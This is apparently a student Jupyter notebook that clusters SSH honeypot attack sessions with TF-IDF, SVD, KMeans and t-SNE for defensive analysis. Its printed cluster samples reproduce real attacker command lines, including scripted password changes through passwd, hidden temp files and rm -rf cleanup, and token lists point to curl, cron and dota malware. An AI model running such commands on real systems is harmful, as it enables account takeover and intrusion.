# Section 3 Unsupervised Learning


--------------------------------------------------------------------------------------

## Preprocessing
First of all, we need to parse the dataset, decode the payloads and perform dimensionality reduction

In [21]:
import string
import base64
import pandas as pd
import re
from sklearn.feature_extraction.text import TfidfVectorizer
from sklearn.compose import ColumnTransformer
import os

# load dataset from environment variable, uncomment when needed
# dataSetPath = os.environ.get('DATASET_PATH')

dataSetPath = '../data/ssh_attacks.parquet'
dataSet = pd.read_parquet(dataSetPath)



def decode_base64_payload(payload):
    base64_pattern = r'([A-Za-z0-9+/]{20,}={0,2})'
    if not "base64" in payload:
        return payload
    matches = re.findall(base64_pattern, payload)
    decoded_strings = []
    for match in matches:
        try:
            decoded = base64.b64decode(match).decode('utf-8', errors='ignore')
            # Filter out non-printable characters
            if all(c in string.printable for c in decoded):
                decoded_strings.append(decoded)
        except Exception as e:
            continue
    # return the original payload but with the decoded b64
    result = payload
    for match, decoded in zip(matches, decoded_strings):
        result = result.replace(match, decoded, 1)
    return result

def preprocess_ip_addresses(payload):
    ip_pattern = r'(\b\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}\b)'
    return re.sub(ip_pattern, 'IP_ADDRESS', payload)

dataSet['decoded_payload'] = dataSet['full_session'].apply(decode_base64_payload).apply(preprocess_ip_addresses)

In [2]:

newDataSet = dataSet.drop(columns=['full_session','session_id','first_timestamp', 'Set_Fingerprint'])

X = newDataSet

token_pattern = r'[^\s|;(){}:\'\"><\=,\.\/\\]+'

preprocessor = ColumnTransformer(
    transformers=[
        (
            "full_session_vectorized",
            TfidfVectorizer(
                lowercase=True,
                token_pattern=token_pattern,
            ),
            "decoded_payload"
        )
    ]
)

X = preprocessor.fit_transform(X)

<>:40: SyntaxWarning: invalid escape sequence '\s'
<>:40: SyntaxWarning: invalid escape sequence '\s'
/tmp/ipykernel_10690/2216484860.py:40: SyntaxWarning: invalid escape sequence '\s'
  plt.title(f'{chosen_n_components} PCs explain {perc_cumul_exp_var[chosen_n_components-1]:.2f}% of $\sigma^2$')


Cumulative explained variance with 6 components: 25.56%




New shape after SVD: (233035, 6)
Old shape before SVD: (233035, 276459)


In [15]:
# dimensionality reduction with TruncatedSVD (it works with sparse matrices)
from sklearn.decomposition import TruncatedSVD
import matplotlib.pyplot as plt
import seaborn as sns
import numpy as np

n_components = 50
svd = TruncatedSVD(n_components=n_components, random_state=42)
X_svd = svd.fit_transform(X)

chosen_n_components = 6
# elbow method to choose number of components
explained_variance = svd.explained_variance_ratio_
cumul_exp_var_chosen = np.cumsum(explained_variance)[:chosen_n_components]
print(f"Cumulative explained variance with {chosen_n_components} components: {cumul_exp_var_chosen[-1]*100:.2f}%")
perc_cumul_exp_var = np.cumsum(explained_variance) * 100

# Plot
# x-axis: 1-based index of principal components
pc_range = np.arange(1, n_components + 1)

plt.figure(figsize=(5, 3.5))
# Cumulative variance against the 1-based range
plt.plot(pc_range, perc_cumul_exp_var) 

plt.xlabel('# Principal Components (PCs)')
plt.ylabel('Cumulative explained variance [%]')

# align ticks and labels starting from 2
plt.xticks(np.arange(2, n_components + 1, step=2))

# x-axis smaller font size to fit all labels
plt.xticks(fontsize=8)

plt.grid()

# line to show chosen number of components
plt.axvline(x=chosen_n_components, color='red', linestyle='--', linewidth=1)

plt.title(f'{chosen_n_components} PCs explain {perc_cumul_exp_var[chosen_n_components-1]:.2f}% of $\sigma^2$')

# better resolution
plt.rcParams['figure.dpi'] = 300

plt.tight_layout()
plt.show()

svd = TruncatedSVD(n_components=chosen_n_components, random_state=42)
X_svd = svd.fit_transform(X)

print(f"New shape after SVD: {X_svd.shape}")
print(f"Old shape before SVD: {X.shape}")


6 components are chosen using the elbow method, choosing more components would improve only slightly the explained variance but would greatly increase the dimensionality and, potentially, the computational resources needed to run the project

## Clustering with KMEANS

Cluster the attacks according to their characteristics. Choose at least 2 Clustering Algorithms, and for each
of them:
1. Determine the number of clusters. Explain your choices and reasoning.
2. Tune other hyper-parameters, if any.3. Visualize the clusters. Explain your technique choice.

In [4]:
from sklearn.cluster import KMeans
from sklearn.metrics import silhouette_score
from tqdm import trange
n_cluster_list=[]
shs_list = []
ri_list = []
ari_list = []
inertia_list=[]
for n_clusters in trange(3, 16):
    kmeans = KMeans(n_clusters=n_clusters, n_init=20, random_state=42)
    cl_labels = kmeans.fit_predict(X_svd)
    # Unsupervised metric
    silhouette  = silhouette_score(X_svd, cl_labels, n_jobs=-1, sample_size=10000, random_state=42)
    n_cluster_list.append(n_clusters)
    shs_list.append(silhouette)
    inertia_list.append(kmeans.inertia_)


100%|██████████| 13/13 [01:14<00:00,  5.73s/it]


best k:  7  with corresponding silhouette:  0.9711892496672099




In [5]:
# Get n_clusters leading to the highest silhouette
best_sh= np.max(shs_list)
best_n=n_cluster_list[np.argmax(shs_list)]
print("best k: ",best_n, " with corresponding silhouette: ", best_sh)

# Plot
plt.figure(figsize=(5, 3.5))
plt.plot(n_cluster_list,shs_list, marker='o', markersize=5)
plt.scatter(best_n, best_sh, color='r', marker='x', s=90)
plt.grid()
plt.xlabel('Number of clusters')
plt.ylabel('Silhouette score')
plt.show()



In [6]:
# Plot k-Means clustering error
plt.figure(figsize=(5, 3.5))
plt.plot(n_cluster_list,inertia_list, marker='o', markersize=5)
plt.grid()
plt.xlabel('Number of clusters')
plt.ylabel('Inertia')
plt.show()



In [7]:
# Putting the silhouette and inertia graphs side by side to verify best k
fig, ax = plt.subplots(1, 2, figsize=(10, 3.5))
# Silhouette plot
ax[0].plot(n_cluster_list, shs_list, marker='o', markersize=5)
best_n = n_cluster_list[np.argmax(shs_list)]
best_sh = shs_list[np.argmax(shs_list)]
ax[0].scatter(best_n, best_sh, color='r', marker='x', s=90)
ax[0].grid()
ax[0].set_xlabel('Number of clusters')
ax[0].set_ylabel('Silhouette score')
# Inertia plot
ax[1].plot(n_cluster_list, inertia_list, marker='o', markersize=5)
best_n_inertia = n_cluster_list[np.argmin(inertia_list)]
ax[1].grid()
ax[1].set_xlabel('Number of clusters')
ax[1].set_ylabel('Inertia')
plt.tight_layout()
plt.show()

In [34]:
# choosing optimal k we can now do the final clustering (with the same hyperparameters)
kmeans = KMeans(n_clusters=best_n, n_init=20, random_state=42)
cl_labels = kmeans.fit_predict(X_svd)

In [35]:
import pandas as pd
import random

pd.set_option('display.max_colwidth', None)

# Add the cluster labels to the DataFrame
newDataSet['cluster'] = cl_labels

for i in range(best_n):
    print(f"\n--- Cluster {i} Details ---")
    cluster_data = newDataSet[newDataSet['cluster'] == i]

    # Print payloads
    print("Payload Samples:")
    # Taking 5 random samples for each cluster
    if not cluster_data['decoded_payload'].empty:
        num_samples = min(5, len(cluster_data['decoded_payload']))
        samples = random.sample(list(cluster_data['decoded_payload']), num_samples)
        print(*samples, sep="\n---\n")
        print()
    else:
        print("No payload samples for this cluster.")


--- Cluster 0 Details ---
Payload Samples:
cat /proc/cpuinfo | grep name | wc -l ; echo -e "abc@1234\n6lu2MtF8Mwhu\n6lu2MtF8Mwhu" | passwd | bash ; echo "abc@1234\n6lu2MtF8Mwhu\n6lu2MtF8Mwhu\n" | passwd ; echo "321" > /var/tmp/.var03522123 ; rm -rf /var/tmp/.var03522123 ; cat /var/tmp/.var03522123 | head -n 1 ; cat /proc/cpuinfo | grep name | head -n 1 | awk '{print $4,$5,$6,$7,$8,$9 ; }' ; free -m | grep Mem | awk '{print $2 ,$3, $4, $5, $6, $7}' ; ls -lh $(which ls) ; crontab -l ; w ; uname -m ; cat /proc/cpuinfo | grep model | grep name | wc -l ; top ; uname ; uname -a ; lscpu | grep Model ; echo "admin abc@1234" > /tmp/up.txt ; rm -rf /var/tmp/dota* ;
---
cat /proc/cpuinfo | grep name | wc -l ; echo -e "huawei!@#$%\nrARUWPrGRvzm\nrARUWPrGRvzm" | passwd | bash ; echo "huawei!@#$%\nrARUWPrGRvzm\nrARUWPrGRvzm\n" | passwd ; echo "321" > /var/tmp/.var03522123 ; rm -rf /var/tmp/.var03522123 ; cat /var/tmp/.var03522123 | head -n 1 ; cat /proc/cpuinfo | grep name | head -n 1 | awk '{print



In [ ]:
from sklearn.manifold import TSNE
import matplotlib.pyplot as plt
import seaborn as sns
import numpy as np

# Subsample for speed (as done previously)
sample_size = min(20000, len(X_svd))
np.random.seed(42)
indices = np.random.choice(len(X_svd), size=sample_size, replace=False)

X_sample = X_svd[indices]
labels_sample = cl_labels[indices]

# t-SNE
tsne = TSNE(n_components=2, perplexity=30, random_state=42, init='pca', learning_rate='auto')
X_tsne = tsne.fit_transform(X_sample)

# visualization 
plt.figure(figsize=(12, 8))

palette = sns.color_palette("bright", 7)

# Plot the points with white edges to help them pop
sns.scatterplot(
    x=X_tsne[:, 0], y=X_tsne[:, 1],
    hue=labels_sample,
    palette=palette,
    legend='full',  
    alpha=0.6,
    s=60,
    edgecolor='white',
    linewidth=0.5
)

plt.legend(
    title="Attack Clusters",
    loc='best', 
    borderaxespad=0.5,
    fontsize=10,
    ncol=1 
)

plt.title('kmeans - t-SNE View of Attack Clusters ($k=7$)', fontsize=15)
plt.xlabel('t-SNE Dimension 1')
plt.ylabel('t-SNE Dimension 2')
plt.grid(True, linestyle=':', alpha=0.4)
plt.tight_layout()
plt.savefig('tsne_clusters_high_contrast.png')



Top 10 defining tokens for Cluster 0 (SVD Weight):
grep: 0.1079
tmp: 0.0877
var: 0.0706
cat: 0.0666
echo: 0.0606
uname: 0.0545
cpuinfo: 0.0542
name: 0.0541
-l: 0.0539
var03522123: 0.0533
------------------------------




Top 10 defining tokens for Cluster 1 (SVD Weight):
tmp: 0.3691
x17-unix: 0.2745
0: 0.2726
var: 0.1959
cd: 0.1763
-s: 0.1568
6: 0.1565
-p: 0.1558
rsync: 0.1558
tar: 0.1558
------------------------------




Top 10 defining tokens for Cluster 2 (SVD Weight):
s: 0.3556
busybox: 0.2391
bin: 0.1478
sh: 0.0608
shell: 0.0599
enable: 0.0599
bs: 0.0598
count: 0.0598
dd: 0.0598
while: 0.0598
------------------------------




Top 10 defining tokens for Cluster 3 (SVD Weight):
x19-unix: 0.4952
tmp: 0.2753
&&: 0.2611
dota3: 0.2122
~: 0.2069
0: 0.2031
cd: 0.1842
var: 0.1462
ssh: 0.1452
-rf: 0.1301
------------------------------




Top 10 defining tokens for Cluster 4 (SVD Weight):
grep: 0.3010
tmp: 0.2528
var: 0.2002
cat: 0.1864
echo: 0.1693
uname: 0.1521
-l: 0.1517
cpuinfo: 0.1511
name: 0.1510
var03522123: 0.1488
------------------------------




Top 10 defining tokens for Cluster 5 (SVD Weight):
dota2: 0.4435
x15-unix: 0.4435
http: 0.2284
ip_address: 0.2211
cron: 0.2049
threatstackcloudsecops: 0.1873
tar: 0.1669
cd: 0.1580
gz: 0.1334
curl: 0.1204
------------------------------




Top 10 defining tokens for Cluster 6 (SVD Weight):
lc_all: 0.8056
c: 0.2296
~: 0.2058
dhpcd: 0.1712
scp: 0.1463
chattr: 0.0798
knrm: 0.0744
r: 0.0673
etc: 0.0633
home: 0.0555
------------------------------




In [ ]:
import numpy as np
from wordcloud import WordCloud
import matplotlib.pyplot as plt
import matplotlib.gridspec as gridspec

# Access the feature names from TfidfVectorizer
tfidf_vocab = preprocessor.named_transformers_['full_session_vectorized'].get_feature_names_out()

# Get the SVD components matrix (V^T)
# This matrix has shape (6, VocabularySize)
svd_components = svd.components_ 

for i in range(best_n):
    # Find the average location (centroid) of this cluster in the 6D space
    cluster_centroid = kmeans.cluster_centers_[i]
    
    # Dot Product: (1 x 6) centroid * (6 x Vocabulary) components
    # This gives the mathematical "importance" of every word for this specific cluster
    word_relevance = np.dot(cluster_centroid, svd_components)
    
    # Filter for positive scores only (words that define the presence of this attack family)
    word_scores = {tfidf_vocab[idx]: score for idx, score in enumerate(word_relevance) if score > 0}
    
    if word_scores:
        # Generate word cloud using frequencies (scores) instead of raw text
        wordcloud = WordCloud(
            width=800, 
            height=400, 
            background_color='white',
            collocations=False
        ).generate_from_frequencies(word_scores)
        
        plt.figure(figsize=(10, 5))
        plt.imshow(wordcloud, interpolation='bilinear')
        plt.axis('off')
        plt.title(f'SVD-Filtered Word Cloud - Cluster {i}')
        plt.show()

        # Display top 10 defining tokens for scientific context
        sorted_words = sorted(word_scores.items(), key=lambda x: x[1], reverse=True)
        print(f"Top 10 defining tokens for Cluster {i} (SVD Weight):")
        for word, score in sorted_words[:10]:
            print(f"{word}: {score:.4f}")
        print("-" * 30)

# single-image wordcloud
n_rows = 2
best_n = 7  # Assuming 7 clusters
fig = plt.figure(figsize=(16, 7))

# Create a grid with 12 columns to allow for 3-plot and 4-plot rows to align
gs = gridspec.GridSpec(n_rows, 12, figure=fig)

cluster_idx = 0

for row in range(n_rows):
    if row == 0:
        # Row 0: 3 plots. Each spans 4 columns.
        columns_per_plot = 4
        num_plots_in_row = 3
    else:
        # Row 4 plots. Each spans 3 columns.
        columns_per_plot = 3
        num_plots_in_row = 4
        
    for p in range(num_plots_in_row):
        if cluster_idx >= best_n:
            break
            
        # Calculate the grid position
        start_col = p * columns_per_plot
        end_col = start_col + columns_per_plot
        ax = fig.add_subplot(gs[row, start_col:end_col])
        
        # WordCloud logic
        cluster_centroid = kmeans.cluster_centers_[cluster_idx]
        word_relevance = np.dot(cluster_centroid, svd_components)
        word_scores = {tfidf_vocab[idx]: score for idx, score in enumerate(word_relevance) if score > 0}
        
        if word_scores:
            wc = WordCloud(
                width=800, height=400, 
                background_color='white', collocations=False
            ).generate_from_frequencies(word_scores)
            ax.imshow(wc, interpolation='bilinear')
            ax.set_title(f'Cluster {cluster_idx}', fontsize=14, fontweight='bold', pad=10)
        
        ax.axis('off')
        cluster_idx += 1

plt.tight_layout()
plt.subplots_adjust(top=0.92, hspace=0.1)
plt.suptitle("kMeans - SVD-Filtered Wordcloud (k=7)", fontsize=20, y=0.98)
plt.show()

In [12]:
# Analisys of intents per cluster
# The original dataset contains a column 'Set_Fingerprint' that indicates the intent of the attack
# The goal is to see how the different intents are distributed across the clusters

analysis_df = dataSet.copy()

analysis_df['cluster'] = cl_labels

print(analysis_df[['Set_Fingerprint', 'cluster']].head())

                Set_Fingerprint  cluster
0  [Defense Evasion, Discovery]        2
1  [Defense Evasion, Discovery]        2
2  [Defense Evasion, Discovery]        2
3  [Defense Evasion, Discovery]        2
4  [Defense Evasion, Discovery]        2




In [ ]:
import seaborn as sns
import matplotlib.pyplot as plt

